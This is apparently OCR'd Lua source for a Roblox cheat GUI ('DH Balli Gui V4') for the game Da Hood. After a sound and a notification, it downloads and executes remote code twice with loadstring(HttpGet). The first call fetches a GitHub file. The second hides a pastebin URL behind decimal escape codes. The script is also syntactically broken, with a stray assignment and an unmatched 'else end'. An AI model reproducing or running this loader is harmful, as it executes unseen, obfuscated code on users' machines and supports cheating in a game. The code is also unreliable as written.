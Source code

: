 local Sound = Instance.new("Sound",game:GetService("SoundService"))
Sound.SoundId = "rbxassetid://232127604"
Sound:Play()
game:GetService("StarterGui"):SetCore("SendNotification", { 
	Title = ("DH Balli Gui V4");
	Text = "Gui is supported in da hood now";
	Icon = "rbxthumb://type=Asset&id=1778351310&w=150&h=150"})
Duration = 16;

loadstring(game:HttpGet("https://raw.githubusercontent.com/BalligusapoTT/BalligusapoTT/main/Blacklist"))()

loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\112\97\115\116\101\98\105\110\46\99\111\109\47\114\97\119\47\49\57\72\75\69\65\80\78\10"))()
else
end
